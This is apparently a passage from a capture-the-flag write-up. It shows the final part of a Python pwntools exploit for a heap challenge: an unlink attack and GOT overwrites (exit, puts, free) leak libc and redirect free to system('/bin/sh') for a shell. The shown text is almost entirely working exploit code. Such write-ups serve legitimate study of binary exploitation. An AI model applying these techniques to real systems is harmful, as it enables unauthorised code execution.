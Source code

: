 ```python
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
    exp()

```

### 題目
